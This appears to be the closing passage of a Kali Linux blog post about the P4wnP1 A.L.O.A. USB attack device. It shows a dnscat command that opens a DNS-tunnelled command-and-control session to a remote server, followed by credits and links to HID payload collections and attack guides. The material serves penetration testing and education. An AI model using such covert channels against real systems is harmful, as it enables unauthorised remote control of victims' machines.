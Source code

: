 Now, we can just simply run the suggested command when setting up `dnscat2-server` on our other machine:

```console
kali@kali-raspberry-pi-zero-w-p4wnp1-aloa:~$ dnscat --dns server=10.0.13.37,port=53 --secret=5672ddb107fe2f33e490a83e8d1036ca
Creating DNS driver:
domain = (null)
host = 0.0.0.0
port = 53
type = TXT,CNAME,MX
server = 10.0.13.37
** Peer verified with pre-shared secret!
Session established!
```

Happy hacking (again)!

Credits
-------

The [original](https://p4wnp1.readthedocs.io/) author of P4wnP1 A.L.O.A. is [Marcus Mengs aka MaMe82](https://twitter.com/mame82).

[Rogan Dawes](https://github.com/rogandawes) took over maintainership when Marcus needed to step away.

Reminder
--------

We love seeing what the community builds on top of Kali Linux, if you are working on a project let us know!

You can reach out to us on [Twitter](https://twitter.com/kalilinux) or on our [Discord](https://discord.kali.org/).

Other Resources
---------------

**Project Resources**:

-   [P4wnP1 A.L.O.A. Homepage](https://github.com/RoganDawes/P4wnP1_aloa)
-   [P4wnP1 Twitter](https://twitter.com/P4wnP1)

**Kali Resources**:

-   [Kali Linux P4wnP1 A.L.O.A. Documentation](https://www.kali.org/docs/arm/raspberry-pi-zero-w-p4wnp1-aloa/)

**Community Resources**:

-   [A Case for P4wnP1 with a spot for an OLED screen](https://thingiverse.com/thing:2701424)
-   [A Menu to use with an OLED screen on the P4wnP1 A.L.O.A](https://github.com/FuocomanSap/P4wnp1-ALOA-Menu-Reworked)
-   [Additional Payloads for P4wnP1 A.L.O.A.](https://github.com/beboxos/P4wnP1-ALOA-HID-payloads)
-   [Hacking with the Raspberry Pi Zero W](https://levelup.gitconnected.com/hacking-with-the-raspberry-pi-zero-w-8520a4d72b2e)
-   [Kali Linux P4wnP1 A.L.O.A. Guide – Setup / Usage / Examples](https://jamesachambers.com/kali-linux-p4wnp1-aloa-guide-setup-usage-examples)
-   [P4wnP1 A.L.O.A.— An advanced HID attack device](https://medium.com/azkrath/p4wnp1-a-l-o-a-an-advanced-hid-attack-device-d906ae5bf48c)
-   [Pi Zero as a HID \\ USB Device (P4wnP1 A.L.A.O)](https://tenaka.net/p4wnp1-hid-attack)
-   [Video about using an OLED screen with the P4wnP1 A.L.O.A](https://youtube.com/watch?v=s0K-YIL_G5c)
-   [Windows HID payload generator](https://github.com/federicodotta/LetMeHID)
